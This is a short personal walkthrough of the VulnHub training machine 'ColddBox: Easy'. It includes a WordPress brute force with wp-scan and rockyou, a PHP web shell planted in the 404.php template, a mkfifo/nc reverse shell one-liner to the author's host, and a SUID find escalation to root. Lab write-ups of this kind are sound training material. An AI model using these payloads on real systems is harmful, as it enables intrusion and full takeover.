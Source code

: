 # ColddBox: Easy

https://www.vulnhub.com/entry/colddbox-easy,586/

Just a warmup, as its been a while. Actually spent most of my time working on a new setup, using kali via WSL2. The biggest issue was catching a reverse shell, which because of how WSL2 works, seems to not be possible for now. Instead I used ncat for windows, via the nmap repo: https://nmap.org/download.html, but then had to fight a war with my own firewall to get it to catch something. Anyway!

1. Found the host only virtual box hosted vm via `nmap -sP 192.168.154.0/24` - that IP range being what I have configured for virtual box.
2. A scan of the machine revealed `80`, and a random port that turned out to be SSH.
3. On port `80` was a wordpress site. I ran `wp-scan` and got a list of users via `-e u`
4. Feeding these users and `rockyou.txt` back into `wp-scan` (`-U <list of users> -P <path to rockyou>`) I got a password within 0.16% of rockyou for the user `c0ldd`
5. Via this user/password, I logged into the admin portal and customised the `404.php` template with a one liner reverse shell: `<?php echo shell_exec($_GET['e'].' 2>&1'); ?>`
  - with this, accessing `?p=1337&e=ls` would list files, so I had rce. I found there was `/hidden` path this way, but it didn't matter by this point.
  - the user was `www-data`, as usual. while messing with my reverse shell shenanigans, I also established step 7 at this point.
6. Starting up `ncat.exe -nvlp 1337` on my windows machine, I caught a reverse shell via `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.154.1 1337 >/tmp/f`
7. A `find / -perm -u=s 2>/dev/null` revealed `/usr/bin/find` under the suid list.
8. Running `/usr/bin/find . -exec /bin/sh -p \; -quit` got me a root shell.

And that's all she wrote!
